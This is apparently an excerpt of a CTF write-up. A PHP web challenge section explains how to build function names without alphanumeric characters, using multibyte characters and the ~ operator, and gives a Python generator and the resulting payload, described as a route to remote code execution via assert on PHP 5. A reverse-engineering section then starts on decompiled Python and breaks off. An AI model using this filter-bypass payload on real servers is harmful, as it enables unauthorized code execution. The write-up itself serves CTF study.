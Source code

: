 php > var_dump(臺[1]);
PHP Warning:  Use of undefined constant 臺 - assumed '臺' (this will throw an Error in a future version of PHP) in php shell code on line 1
string(1) "�"
Although the unicode character 臺 (which means Tai in Chinese) is not put in quotes, it can still be interpreted. Thank you, PHP!

But the unicode character doesn't contain any ASCII character in case of character set confusion. We can utilize ~ to bypass this.

Here is a PoC. The challenge server uses PHP 5, so assert can be used as a dynamic function to RCE.

#!/usr/bin/env python3
# Python 3.6.5

def toUnicode(c):
    byte = 255-ord(c)
    return bytes([0xe4, byte, 0x80]).decode()

print('$_=_==_;') # True, because NULL == NULL
print('$__=' + '.'.join([f'~{toUnicode(c)}[$_]' for c in 'printf']) + ';') # string(4) "printf"
print('$___=' + '.'.join([f'~{toUnicode(c)}[$_]' for c in '_GET']) + ';') # string(4) "_GET"
print(f'$__($$___[$_]);') # $$___[$_] means $_GET["1"]
$_=_==_;
$__=~䏀[$_].~䍀[$_].~䖀[$_].~䑀[$_].~䋀[$_].~䙀[$_];
$___=~䠀[$_].~一[$_].~亀[$_].~䫀[$_];
$__($$___[$_]); // printf($_GET["1"]);
rev
python (sasdf)
We construct the pyc from opcode.txt and then decompile with uncompyle6 (If you are interestring in how to construct pyc, google for types.CodeType and marshal), and then we have following code:

from ctypes import *
from libnum import n2s, s2n
import binascii as b
key = '********'

def aaaa(key):
    a = lambda a: b.hexlify(a)
    return ('').join((a(i) for i in key))

def aa(key):
    a = cdll.LoadLibrary('./a').a
    a(key)

def aaaaa(a):
    return s2n(a)

def aaa(key):
    a = cdll.LoadLibrary('./a').aa
    a(key)

def aaaaaa():
    aaa(aaaa(key))
